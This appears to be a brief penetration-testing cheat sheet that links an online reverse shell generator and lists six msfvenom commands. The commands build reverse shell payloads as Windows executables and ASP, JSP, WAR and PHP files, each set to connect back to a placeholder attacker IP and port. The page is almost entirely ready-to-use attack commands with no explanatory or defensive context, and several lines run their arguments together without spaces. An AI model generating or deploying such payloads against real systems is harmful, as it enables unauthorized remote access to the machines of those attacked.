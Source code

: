 ### Reverse Shell Generator
```bash
https://www.revshells.com/
```
### 

### msfvenom
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x86.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x64.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f asp >shell.asp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f raw >shell.jsp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f war >shell.war`
- `msfvenom -p php/reverse_php LHOST=<IP>LPORT=<PORT>-f raw >shell.php`
